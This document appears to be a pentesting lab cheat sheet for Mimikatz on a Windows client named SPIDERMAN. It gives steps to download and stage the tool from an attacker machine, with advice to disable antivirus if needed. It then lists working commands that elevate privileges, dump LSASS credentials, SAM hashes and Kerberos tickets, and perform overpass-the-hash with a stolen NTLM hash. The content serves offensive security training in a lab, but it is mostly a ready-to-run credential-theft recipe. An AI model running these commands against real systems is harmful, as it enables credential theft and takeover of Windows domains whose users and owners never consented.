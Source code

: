 
## **Overview**


- Tool used to view and steal credentials, generate kerberos tickets and leverage attacks
- Dump credentials stored in memory
- Few more attacks : Credential dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket and Golden Ticket


## **Installation**

- Download the mimikatz file[.zip] from [here](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip) on your kali machine
- Open the zipped file and navigate to the `/x64/` folder
- Transfer all files in this folder to your windows client machine, In our case it is **SPIDERMAN**
	- We can start up a python3 server on our Attacker machine with `python3 -m http.server 80`
	- Then navigate to your windows machine and open up a browser then type in our Attacking machine IP
	- Look for the files and download them (If you have any difficulty turn off your windows Antivirus)

![](https://i.imgur.com/HwRcWdk.png)

- Open up a Command Prompt with **Administrative privileges** on our SPIDERMAN VM and change directory to downloads (Where the Mimikatz file is located at)

![](https://i.imgur.com/QcWQSpt.png)


## **General Usage**

```powershell
# start mimikatz
c:\Users\peterparker\Downloads>mimikatz.exe

# Elevate to highest integrity level
mimikatz # privilege::debug
mimikatz # token::elevate

# List available options
mimikatz # sekurlsa::
```


### **Dump Hashes in LSASS**  

```powershell
mimikatz # sekurlsa::logonpasswords
```


### **Dump SAM**

```powershell
mimikatz # lsadump::sam
```


### **Dump Cached TGTs**

```powershell
mimikatz # sekurlsa::tickets
```


### **Overpass the Hash**

Create a TGT using a dumpled NTLM hash

```powershell
mimikatz # sekurlsa::pth /user:username /ntlm:hash-here /domain:domain.tld
```



### **Example**

We were able to find clear text credentials for the DC, due to the **hackme** share mounted on this PC

![](https://i.imgur.com/HtyOW5T.png)
